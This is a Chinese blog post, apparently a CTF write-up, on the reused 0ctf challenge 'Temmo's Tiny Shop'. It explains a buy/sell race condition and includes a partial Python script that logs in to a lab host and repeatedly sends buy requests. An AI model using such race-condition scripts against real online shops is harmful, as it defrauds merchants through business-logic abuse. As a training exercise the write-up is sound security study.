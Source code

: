 

# 某校赛的题解...再膜鸡哥_Assassin__is__me的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_35078631/article/details/78149854](https://blog.csdn.net/qq_35078631/article/details/78149854)

真是菜的一逼…WEB生疏了小小总结一下。

<center>![这里写图片描述](img/934c21fe69a7e0452713f167747f3fd6.png)</center>

两道0ctf的原题

## **0ctf Temmo’s Tiny Shop part1**

打开了首先发现了再搜索的order位置存在过滤Waf，感觉是一个注入，但是只是一个猜想，但是感觉过滤的东西实在是太多了…以为思路错了…转而一想是不是买和卖的条件竞争呢？

但是一开始一直卡在同一用户为啥不行？？？？然后换了个套路用不同的套接字就行了…用两个cookie，gg，我用的两个脚本，算是一个经典的条件竞争了。反正注意每个线程都需要登录

```
#part1
#_*_coding:utf-8_*_
import requests
import time
import threading

#拼接url
host = "http://10.114.2.201:10002"
url = '/app.php?action=login'
url1 = host + "/app.php?action=buy&id=6"
url2 = host + "/app.php?action=sale&id=6"
headers1={'PHPSESSID':'vqntjrojppnerbc1l8jc5pl6p5'}
#headers2={'PHPSESSID':'vqntjrojppnerbc1l8jc5pl6p6'}

s1=requests.session()
#s2=requests.session()
login_para={'action':'login'}
parm_data={'username':'doge','pwd':'doge'}

s1.post(url=host+url,data=parm_data,headers=headers1)
#s2.post(url=host+url,data=parm_data,headers=headers2)
while True:
    a = s1.get(url=url1,headers=headers1).content
    print(a) 
```
